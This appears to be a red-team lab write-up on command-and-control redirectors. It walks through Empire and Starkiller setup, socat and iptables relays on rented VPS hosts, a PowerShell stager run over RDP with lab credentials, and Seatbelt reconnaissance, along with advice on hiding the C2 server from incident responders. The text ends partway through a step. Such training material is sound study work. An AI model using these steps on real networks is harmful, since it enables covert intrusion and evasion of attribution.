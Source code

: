 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
Create an Empire listener with a Host set to a redirector address
- ###### Listener will have the IP address or hostname of the redirector, and not your tun0 adapter. 
- ###### Stager will have the Redirector IP / Host value will be used for communication, and not want your C2 server's address or hostname here.

Select http in the drop down menu. Then provide the following values:

    Name: interactive-https
    Host: https://10.130.7.5:443 <- This must be the ip address or hostname of the redirector
    Port: 443
    Bind IP: 0.0.0.0
    StagingKey: AddSomethingRandomTo32Characters
    CertPath: /opt/Empire/empire/server/data

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen.

![[Pasted image 20240310173626.png]]
### 5. Create Stager

Select multi/launcher in the drop down menu. Then provide the following values:

    StarkillerName: interactive-https-pwsh
    Listener: interactive-https
    Language: powershell

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen

![[Pasted image 20240310173648.png]]

### 6. Deliver Stager
- Execute the Stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

![[Pasted image 20240310174517.png]]
###### Note: In a real engagement you would avoid RDP and if you absolutely must, you should use a proxy for the connection.
- We are going to RDP to the target network, consider this a system you control and disregard communication path, OPSEC, and tradecraft on this system only. 

Open a command prompt by clicking the windows icon in the lower left and typing cmd.exe. Then right click in the command prompt. 
- You should see a lot of encoded text. Press Enter to spawn a new agent. The command prompt should close automatically. You may now exit your RDP session.
![[Pasted image 20240310174620.png]]
![[Pasted image 20240310174630.png]]
### 7. Agent Interaction

Click on the chain icon on the left navigation window to bring up the Agents dashboard. 
- You may now create tasks to explore the new system.

If you look at the VIEW tab of the agent you will see that the External IP is the IP of your redirector while the internal IP is the IP of the host.

Let's run Seatbelt from GhostPack which will allow us to get a lot of information about the user and host on this system. 
- Provide the following values on the INTERACT tab of the agent and click submit:

	    Execute Module: csharp/GhostPack/Seatbelt
	    DotNetVersion: Net35
	    Command: -group=user

![[Pasted image 20240310181957.png]]
#### Notes

Now all the C2 traffic is routed through a redirector in gray space. This creates one hop between your C2 server and the target network.
- If Incident Responders conduct network forensics, they would get the DNS or IP address of the temporary VPS instead of your C2 server.
- The Blue Team can ask the VPS provider for logs around the time of the incident through Law Enforcement channels or by filling out an Abuse report.
- With one hop that might be a concern, but redirectors can be chained together to make it more difficult to unravel the whole chain.
- If chaining redirectors, use different providers in different geographic areas.
## Conclusion

In this lab we created an HTTP listener that was configured with X.509 certificates to safeguard our C2 traffic. 
- We then generated a PowerShell stager and delivered it to the windows system in the target environment. 
- For the purposes of the lab, we used direct RDP access to execute our stager code. 
- In a real engagement other delivery methods like phishing would be necessary to get that initial access. 
- Lastly, we were assured that all the communication worked because the Agent was spawned and we could see that the traffic was directed to our C2 through the redirector.

---
##### BONUS - iptables
1. Try to establish redirection with iptables on the redirector (not your Slingshot Linux VM). First enable ipv4 forwarding with `sysctl net.ipv4.ip_forward=1` and then establish a prerouting rule.
2. Create iptables rules
```markdown
root@4-8-15:~# sysctl net.ipv4.ip_forward=1
root@4-8-15:~# iptables -I INPUT -p tcp -m tcp --dport 443 -j ACCEPT
root@4-8-15:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination <C2-IP-Address or Hostname>:443
root@4-8-15:~# iptables -t nat -A POSTROUTING -j MASQUERADE
root@4-8-15:~# iptables -I FORWARD -j ACCEPT
root@4-8-15:~# iptables -P FORWARD ACCEPT
root@4-8-15:~# nano /etc/ssh/sshd_config
root@4-8-15:~# service sshd restart or systemctl restart sshd
```
##### BONUS - SSH | Redirector Configuration
1. By default the SSH daemon will not allow remote port forwards to bind to all adapters (0.0.0.0) unless the configuration is set properly. 
2. Open the SSH daemon config with `vim /etc/ssh/sshd_config`  on the redirector. 
```markdown
# Change the value of `GatewayPorts and AllowTcpForwarding to yes.`
GatewayPorts yes
AllowTcpForwarding yes
```
3. Restart the ssh daemon with `service sshd restart or systemctl restart sshd` for the new configuration to take effect.
4. ssh to the redirector and establish a reverse port forward:
